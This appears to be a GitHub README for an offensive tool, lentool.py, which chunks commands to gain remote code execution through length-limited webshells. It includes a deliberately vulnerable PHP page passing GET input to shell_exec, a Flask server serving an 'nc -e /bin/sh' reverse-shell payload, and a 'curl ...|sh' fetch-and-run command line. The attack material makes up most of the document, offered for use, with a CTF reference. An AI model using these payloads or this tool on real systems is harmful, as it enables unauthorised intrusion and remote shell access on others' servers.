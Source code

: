 # Description
Tool to RCE in limited input length webshells.  
It pipes the payload to sh, you can customize it with a few changes in the source code (python is already done, just uncomment it), also you could modify it to execute commands directly.

# Usage
```
usage: lentool.py [-h] -c COMMAND -t TARGET [-s MAX_SIZE] [-d DELAY]

optional arguments:
  -h, --help            show this help message and exit
  -c COMMAND, --command COMMAND
                        Payload location
  -t TARGET, --target TARGET
                        Url target (with param ex: http://target?cmd
  -s MAX_SIZE, --max-size MAX_SIZE
                        Maximum amount of characters per request
  -d DELAY, --delay DELAY
                        Time to wait between requests in tenths of a second
```
 # POC
 ## Vulnerable application:
 ```php
 <?php
 
$sandbox = '/home/estse/sandbox/';
@mkdir($sandbox);
@chdir($sandbox);

if (!isset($_GET['start'])){
	show_source(__FILE__);
	exit;
}

// This will return output only for id and ps.
if (strlen($_GET['start']) < 5){
	echo shell_exec($_GET['start']);
} else {
	echo "Please enter a valid command";
}

?>
 ```
 ## Flask server to host the payload:
 ```python
from flask import Flask, Response
 
app = Flask(__name__)
 
@app.route('/')
def i():
    return Response("nc -e /bin/sh 127.0.0.1 1234", headers={'Content-Type': 'text/plain'}, status=200)
 
if __name__ == '__main__':
    app.run(host='0.0.0.0',port=5000)
```
## Run:
```
python3 lentool.py -c 'curl localhost:5000|sh' -t http://127.0.0.1/index.php?start -s 4
```
 

https://user-images.githubusercontent.com/40002393/154508216-648b8403-f78a-4298-b68c-85944a2118e1.mp4

# References
https://err0rzz.github.io/2017/11/13/ctf%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E4%B8%8E%E7%BB%95%E8%BF%87/
